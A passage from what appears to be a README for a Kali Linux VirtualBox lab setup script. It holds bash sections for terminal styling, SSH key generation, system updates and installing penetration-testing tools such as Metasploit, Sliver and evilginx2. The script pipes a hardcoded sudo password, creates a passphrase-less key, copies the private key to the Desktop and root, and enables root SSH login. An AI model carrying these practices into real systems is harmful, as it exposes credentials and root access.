        # [line_break]
        # disabled = false

        # # Define custom colors
        # [palettes.austin]
        # # Overwrite existing color
        # # blue = '#39FF14'
        # # Define new color
        # # mustard = '#af8700'
        # neon_green = '#39FF14'

        # [os]
        # # format = " $symbol "
        # format = "[ $symbol ]($style)"
        # style = "bold white"
        # # style = "bg:#f07623"
        # disabled = false

        # # This is the default symbols table.
        # [os.symbols]
        # Alpaquita = "🔔"
        # Alpine = "🏔️"
        # Amazon = "🙂"
        # Android = "🤖"
        # Arch = "🎗️"
        # Artix = "🎗️"
        # CentOS = "💠"
        # Debian = "🌀"
        # DragonFly = "🐉"
        # Emscripten = "🔗"
        # EndeavourOS = "🚀"
        # Fedora = "🎩"
        # FreeBSD = "😈"
        # Garuda = "🦅"
        # Gentoo = "🗜️"
        # HardenedBSD = "🛡️"
        # Illumos = "🐦"
        # Linux = "🐧"
        # Mabox = "📦"
        # Macos = "🍎"
        # Manjaro = "🥭"
        # Mariner = "🌊"
        # MidnightBSD = "🌘"
        # Mint = "🌿"
        # NetBSD = "🚩"
        # NixOS = "❄️"
        # OpenBSD = "🐡"
        # OpenCloudOS = "☁️"
        # openEuler = "🦉"
        # openSUSE = "🦎"
        # OracleLinux = "🦴"
        # Pop = "🍭"
        # Raspbian = "🍓"
        # Redhat = "🎩"
        # RedHatEnterprise = "🎩"
        # Redox = "🧪"
        # Solus = "⛵"
        # SUSE = "🦎"
        # Ubuntu = "🎯"
        # Unknown = "❓"
        # # Windows = "🪟"
        # Windows = ""

        # # You can also replace your username with a neat symbol like  to save some space
        # [username]
        # show_always = true
        # format = '[ \[$user\] ]($style)'
        # # style_user = "bg:#9A348E"
        # # style_root = "bg:#9A348E fg:red"
        # # style_user = "bg:#f07623 fg:#ffffff"
        # # style_root = "bg:#f07623 fg:neon_green"
        # style_user = "bg:#f07623 fg:#ffffff"
        # # style_root = "bg:#93d0fc fg:#ff0000"
        # # style_root = "bg:#93d0fc fg:#011efe"
        # style_root = "bg:#93d0fc fg:#fe0000"

        # [time]
        # time_format = "%A|%d-%b-%Y|%T|%:z"
        # format = '[ \[$time🕙\] ]($style)'
        # # style = 'bg:#8b1ec4 fg:bold neon_green'
        # # style = 'bg:#93d0fc fg:#ffa32d'
        # style = 'bg:#00a1de fg:#ffffff'
        # disabled = false

        # [shell]
        # format = '[$indicator]($style)'
        # # cmd_indicator = "\uebc4"
        # powershell_indicator = " "
        # cmd_indicator = " "
        # # style = 'cyan-blue'
        # # style = 'fg:neon_green'
        # disabled = false

        # [fill]
        # symbol = "-"
        # style = 'fg:neon_green'
        # # style = 'bg:#8b1ec4 fg:neon_green'
        # # style = "bold red"
        # disabled = false

        # [cmd_duration]
        # min_time = 1
        # show_milliseconds = true
        # disabled = false
        # format = " [$duration ]($style)"
        # # style = "bold italic red"

        # [status]
        # # style = "bg:blue"
        # symbol = " 🔴 "
        # success_symbol = " 🟢 "
        # format = '[\[$symbol$common_meaning$signal_name$maybe_int\]]($style) '
        # map_symbol = true
        # disabled = false

        # [directory]
        # format = "[ $path ]($style)"
        # # style = "bg:#DA627D"
        # style = "bg:#9600ff fg:#0bff01"
        # # style = "bg:#fe0000 fg:#0bff01"
        # # style = "bg:#f07623 fg:#0900ff"
        # # style = "bg:#011efe fg:neon_green"
        # # style = "bg:#cb2c31 fg:#ffffff"
        # # style = "bg:#011efe fg:#0bff01"
        # # style = "bg:#93d0fc fg:#ff0000"
        # # style = "bg:#011efe fg:#00fff9"
        # truncation_length = 3
        # truncation_symbol = "…\\"
        # use_os_path_sep = true
        # home_symbol = '~'

        # # Here is how you can shorten some long paths by text replacement
        # # similar to mapped_locations in Oh My Posh:
        # [directory.substitutions]
        # "Documents" = "📄 "
        # "Downloads" = "📥 "
        # "Music" = "🎜 "
        # "Pictures" = "📷 "

        # # Replace the '❯' symbol in the prompt with '➜'
        # [character] # The name of the module we are configuring is 'character'
        # success_symbol = '[➜](bold green)' # The 'success_symbol' segment is being set to '➜' with the color 'bold green'
        # error_symbol = "[✗](bold red)"

        # [python]
        # symbol = "🐍 "
        # # style = "bold yellow"
        # # style = "bold green"
        # # pyenv_version_name = true
        # pyenv_prefix = "venv "
        # python_binary = ["./venv/bin/python", "python", "python3", "python2"]
        # detect_extensions = ["py"]
        # version_format = "v${raw}"
        # format = 'via [${symbol}python (${version} )(\($virtualenv\) )]($style)'
        # # format = '\[[${symbol}${pyenv_prefix}(${version})(\($virtualenv\))]($style)\]'
        # # format = "[$symbol$version]($style) "

        # [rust]
        # format = "[$symbol$version]($style) "
        # # style = "bold green"

        # [hostname]
        # ssh_only = true
        # format = "[$ssh_symbol](bold blue) on [$hostname](bold red) "
        # disabled = false

        # [localip]
        # ssh_only = true
        # format = "@[$localipv4](bold red) "
        # disabled = false

        # [memory_usage]
        # format = "$symbol[${ram}( | ${swap})]($style) "
        # threshold = 70
        # # style = "bold dimmed white"
        # disabled = false
        #########################################################################################

        # Check the content of /home/kali/.config/pastel-powerline.toml
        # echo ""
        # cat /home/kali/.config/pastel-powerline.toml
        # echo ""





      fi

      # Turn off debugging mode
      set +xv
    } 2>&1 | tee "$output_file"

elif [[ "$option" == "sshkey" ]]; then

    # Define the filename with the current date
    output_file="sshkey-$current_date.log"

    {
      # Turn on debugging mode
      set -xv

      # Generate SSHKEY
      ssh_dir="/home/kali/.ssh"
      ssh_key_file="$ssh_dir/id_rsa"

      if [ ! -d "$ssh_dir" ]; then
          mkdir -p "$ssh_dir"
          chmod 700 "$ssh_dir"
          echo "Created SSH directory: $ssh_dir"
      fi

      if [ ! -f "$ssh_key_file" ]; then
          ssh-keygen -o -v -t ed25519 -a 1000 -P ""  -N "" -f "$ssh_key_file"
          chmod 600 "$ssh_key_file"
          echo "Generated SSH key: $ssh_key_file"

          # Backup sshkey to Desktop
          cp -v $ssh_key_file /home/kali/Desktop/kali-Virtualbox-id_rsa
          cp -v $ssh_key_file.pub /home/kali/Desktop/kali-Virtualbox-id_rsa.pub

          # Copy the public key to /home/kali/.ssh/authorized_keys so that Windows can use private key to ssh in
          cat $ssh_key_file.pub >> /home/kali/.ssh/authorized_keys
          cat /home/kali/.ssh/authorized_keys
      fi

      if [ ! -d "/root/.ssh" ]; then
          sudo -S <<< "kali" mkdir -p "/root/.ssh"
          sudo -S <<< "kali" chmod 700 "/root/.ssh"

          sudo -S <<< "kali" ls -la /root/.ssh
          
          sudo -S <<< "kali" cp -v $ssh_key_file /root/.ssh/id_rsa
          sudo -S <<< "kali" cp -v $ssh_key_file.pub /root/.ssh/id_rsa.pub
          
          # Copy the public key to /root/.ssh/authorized_keys so that Windows can use private key to ssh in
          { echo "kali"; cat /home/kali/.ssh/id_rsa.pub; } | sudo -k -S tee -a /root/.ssh/authorized_keys &>/dev/null
          sudo -S <<< "kali" cat /root/.ssh/authorized_keys
      fi

      # Turn off debugging mode
      set +xv
    } 2>&1 | tee "$output_file"

elif [[ "$option" == "system-update" ]]; then

    # Define the filename with the current date
    output_file="system-update-$current_date.log"

    {
      # Turn on debugging mode
      set -xv

      echo -e "\nYou have selected 'system-update'"
      echo "If you are encounter error after running this."
      echo -e "Please do a 'ctrl+c' and re-run 'system-update' again.\n"
      echo -e "Please do a 'sudo reboot' and re-run 'system-update' again if 'ctrl+c' does not work.\n\n"

      # Handle the prompt for PostgreSQL 15 obsolescence
      echo "kali" | sudo -S apt update -y
      echo "kali" | sudo -S apt list --upgradable
      echo "kali" | sudo -S pg_dropcluster 15 main --stop
      echo "kali" | sudo -S apt purge -y postgresql-15 postgresql-client-15
      sudo -S <<< "kali" apt autoremove --purge -y && sudo -S <<< "kali" apt autoclean -y

      # Handle the prompt for PostgreSQL 15 obsolescence
      if [ "$?" -eq 0 ]; then
          echo "kali" | sudo -S dpkg --configure -a
      fi

      # Run apt update
      echo "kali" | sudo -S apt update -y
      echo "kali" | sudo -S apt list --upgradable
      echo "kali" | sudo -S apt --yes --quiet --option Dpkg::Options::=--force-confold --option Dpkg::Options::=--force-confdef --option Dpkg::Options::=--force-confnew full-upgrade

      echo "Upgrade completed."

      # Turn off debugging mode
      set +xv
    } 2>&1 | tee "$output_file"
    
elif [[ "$option" == "set-terminal" ]]; then

    # Define the filename with the current date
    output_file="set-terminal-$current_date.log"

    {
      # Turn on debugging mode
      set -xv

      echo -e "\nYou have selected 'set-terminal'\n"

      # First checking
      check_file_content "/home/kali/.config/qterminal.org/qterminal.ini" "fixedSize=@Size(600 400)"
      if [ $? -eq 1 ]; then
        # Restart terminal
        x-terminal-emulator &
        exit 1
      fi

      # Run apt-get update
      echo "kali" | sudo -S apt update -y

      # Install dbus
      sudo -S <<< "kali" apt install -y dbus dbus-x11
      sleep 2

      # Install terminator
      sudo -S <<< "kali" apt install -y terminator
      sleep 2

      # Set Windows inside Kali Scaling to 2x
      echo export GDK_SCALE=2 > /home/kali/.xsessionrc 
      sleep 2
      xfconf-query -c xfwm4 -p /general/theme -s Kali-Dark-xHiDPI
      sleep 2
      xfconf-query -c xsettings -p /Gdk/WindowScalingFactor -n -t 'int' -s 2 
      sleep 2
      xfconf-query -c xsettings -p /Gtk/FontName -s "Sans 13"
      sleep 2
      xfconf-query -c xsettings -p /Gtk/MonospaceFontName -s "Monospace 13"
      sleep 2

      
      # Set Screen Resolution inside Kali
      sudo -S <<< "kali" sed -i.bak 's/^GRUB_CMDLINE_LINUX_DEFAULT="quiet"$/GRUB_CMDLINE_LINUX_DEFAULT="quiet video=hyperv_fb:1920x1080"/' /etc/default/grub
      sleep 2
      cat /etc/default/grub
      sleep 2
      ls -la /etc/default | grep grub
      sleep 2
      sudo -S <<< "kali" update-grub

      
      # Thunar File Manager enable Always Show Hidden Files
      # ~/.config/Thunar/thunarrc
      # LastShowHidden=TRUE
      xfconf-query --channel thunar --property /LastShowHidden --create --type bool --set true

      # Path to Terminator config file
      terminator_CONFIG_FILE=/home/kali/.config/terminator/config

      # Check if Terminator's config directory exists
      if [ ! -d "$(dirname $terminator_CONFIG_FILE)" ]; then
          mkdir -p "$(dirname $terminator_CONFIG_FILE)"
      fi

      # Check if the config file exists, and if not, create it
      if [ ! -f $terminator_CONFIG_FILE ]; then
          touch $terminator_CONFIG_FILE
      fi

      # Set the font size in the Terminator config file
      echo -e "[global_config]\nwindow_state=maximise\n\n[profiles]\n [[default]]\n font = Monospace 20\n emulation = xterm-256\n scrollback_infinite = True\n copy_on_selection = True\n putty_paste_style = True\n cursor_blink = True" > $terminator_CONFIG_FILE

      cat /home/kali/.config/terminator/config

      # Path to default terminal emulator configuration (/home/kali/.config/xfce4/helpers.rc)
      terminal_CONFIG_FILE=/home/kali/.config/xfce4/helpers.rc

      # Check if default terminal emulator configuration (/home/kali/.config/xfce4/helpers.rc) exists
      if [ ! -d "$(dirname $terminal_CONFIG_FILE)" ]; then
          mkdir -p "$(dirname $terminal_CONFIG_FILE)"
      fi

      # Check if the config file exists, and if not, create it
      if [ ! -f $terminal_CONFIG_FILE ]; then
          
          touch $terminal_CONFIG_FILE
          
          # Set default terminal emulator as Terminator (/home/kali/.config/xfce4/helpers.rc)
          echo "TerminalEmulator=terminator" > $terminal_CONFIG_FILE
      else    
          # Backup default terminal emulator configuration (/home/kali/.config/xfce4/helpers.rc)
          cp -v /home/kali/.config/xfce4/helpers.rc /home/kali/.config/xfce4/helpers.rc.$current_date.bak

          # Set default terminal emulator as Terminator (/home/kali/.config/xfce4/helpers.rc)
          sed -i.bak 's/TerminalEmulator=qterminal/TerminalEmulator=terminator/g' /home/kali/.config/xfce4/helpers.rc
          cat /home/kali/.config/xfce4/helpers.rc
      fi

      # Define qterminal_file
      qterminal_file="/home/kali/.config/qterminal.org/qterminal.ini"

      if check_immutable_attribute $qterminal_file; then
        echo "$qterminal_file is set with the immutable attribute (chattr +i)."
        echo "To reset the attribute, please use 'sudo -S <<< \"kali\" chattr -f -i /home/kali/.config/qterminal.org/qterminal.ini'."
      else
        echo "$qterminal_file does not have the immutable attribute (chattr +i) set."
              
        # Backup $qterminal_file
        cp -v $qterminal_file $qterminal_file.$current_date.bak

        # Changing /home/kali/.config/qterminal.org/qterminal.ini configuration
        sudo -S <<< "kali" chattr -f -i $qterminal_file
        sed -i.bak 's/fontSize=10/fontSize=20/g' $qterminal_file
        sed -i.bak 's/AskOnExit=false/AskOnExit=true/g' $qterminal_file
        sed -i.bak 's/HideTabBarWithOneTab=true/HideTabBarWithOneTab=false/g' $qterminal_file
        sed -i.bak 's/LastWindowMaximized=true/LastWindowMaximized=false/g' $qterminal_file
        sed -i.bak 's/SaveSizeOnExit=true/SaveSizeOnExit=false/g' $qterminal_file
        sed -i.bak 's/size=@Size(640 480)/size=@Size(1400 900)/g' $qterminal_file
        sed -i.bak 's/fixedSize=@Size(600 400)/fixedSize=@Size(1400 900)/g' $qterminal_file
        sed -i.bak '/AskOnExit=false/i AlwaysShowTabs=true' $qterminal_file
        # sed -i.bak 's/SavePosOnExit=true/SavePosOnExit=false/g' $qterminal_file
        # sed -i.bak 's/pos=@Point.*/pos=@Point(200 250)/g' $qterminal_file
        sudo -S <<< "kali" chattr -f +i $qterminal_file
        cat $qterminal_file

      fi

      # Turn off debugging mode
      set +xv
    } 2>&1 | tee "$output_file"

fi
```

</details>

<br>

### set-terminal

Here is the breakdown details of `set-terminal` section.

It will help to configure:

- Kali Guest's Font Size and Window Scaling.
    - Font Size = 13
    - Window Scaling = 2x
- Enable Always Show Hidden Files for `Thunar` File Manager.
- Install and setup `terminator`.
    - Font Size = 20
    - Emulation = xterm-256
    - Scroll-back = infinite
    - Enable copy on selection
    - Enable putty paste style
    - Enable cursor blinking
- Configure `terminator` as default terminal instead of `qterminal`.
- `QTerminal`'s Font Size and Window Size by changing the configuration in `/home/kali/.config/qterminal.org/qterminal.ini`.
    - Font Size = 20
    - Enable ask on exit
    - Enable always show tab bar
    - Window Size = 1400x900

<br>

### system-update

Here is the breakdown details of `system-update` section.

It will help to configure:

- Do a `apt update`
- Stop `postgresql-15`
    - This is because Kali Linux 2023.3a Virtualbox VM has `postgresql-15` installed and running that will cause `apt upgrade` FREEZE.
- Do a `apt purge -y postgresql-15 postgresql-client-15`
- Do a `apt full-upgrade`

<br>

### sshkey

Here is the breakdown details of `sshkey` section.

It will help to configure `sshkey` for the user `kali`:

- Check `.ssh` and `sshkey` existed for the user `kali` and `root`
- Create `.ssh` and `sshkey` if require for the user `kali` and `root`
- Copy `sshkey` (including private and public key) to `/root/.ssh` for the user `root`
- Copy ssh public key to `.ssh/authorized_keys` for the user `kali` and `root`, so that you can connect ssh using private key from Windows host
- Backup the `sshkey` (including private and public key) to `/home/kali/Desktop`, so that you can copy out to Windows host

<br>

### setup

Here is the breakdown details of `setup` section.

It will help to configure:

- Set hostname to `kali-Virtualbox`
- Set timezone to `Asia/Singapore`
- Configure static ip for `eth1` (that is "Virtualbox_Lab" - "Internal" network in Virtualbox)
    - '192.168.138.6/24'
- Set root password
- Maps hostnames to IP addresses in `/etc/hosts`
    - '127.0.0.1       kali-Virtualbox'
    - '192.168.138.6   kali-Virtualbox'
- Do a `apt update`
- Install `rust`
- Install `starship`
- Install `zsh-autosuggestions`, `dos2unix`, `python3`, `tmux`, `asciinema`, `golang`, `sshuttle`, `neofetch`, `zsh`, `git`, `software-properties-common`, `powershell`, `nmap`, `ltrace`, `lsof`, `strace`, `tshark`, `tcpdump`, `exiftool`, `rpm`, `man-db`, `upx-ucl`, `nfs-common`, `cifs-utils`, `rdesktop`, `ncat`, `netcat-traditional`, `wfuzz`, `sqlmap`, `dnsenum`, `enum4linux`, `nikto`, `nbtscan-unixwiz`, `smbmap`, `linux-exploit-suggester`, `exploitdb`, `binwalk`, `sshuttle`, `john`, `hydra`, `wordlists`, `sshpass`, `jq`, `openssl`, `morse`, `hashid`, `2to3`, `mcrypt`, `bsdgames`, `morse2ascii`, `seclists`, `curl`, `feroxbuster`, `impacket-scripts`, `onesixtyone`, `oscanner`, `redis-tools`, `smbclient`, `sslscan`, `tnscmd10g`, `whatweb`, `wkhtmltopdf`, `ffuf`, `gobuster`, `gcc`, `gpg`, `ripgrep`, `fd-find`, `screen`, `powershell-empire`, `starkiller`, `feroxbuster`, `netcat-openbsd`, `metasploit-framework`, `armitage`, `koadic`, `mingw-w64`, `freerdp2-shadow-x11`, `freerdp2-x11`, `snapd`, `remmina`, `ruby`, `evil-winrm`, `feroxbuster`, `shellter`, `evilginx2`, and `chisel`
- Install `sliver` c2
- Install `rustscan`
- Install `fast-syntax-highlighting` and `zsh-autocomplete`
- Install `CascadiaCode` and `FiraCode` Nerd Font
- Install `VSCode`, `Google Chrome`, and `Microsoft Edge`
- Install and setup `pipx`
- Install `crackmapexec` using `pipx`
- Install tools using `pip3`
    - `updog`
    - `kerbrute`
    - `name-that-hash`
- Install `kerbrute` using `Go`
- Update databases for `nmap`, `wpscan`, `searchsploit`, and `locate`
- Do a `apt full-upgrade`
- DO a `apt autoremove --purge -y && sudo apt autoclean -y`
- Enable SSH at boot and allow root login with SSH
- Backup and configure `/home/kali/.zshrc`
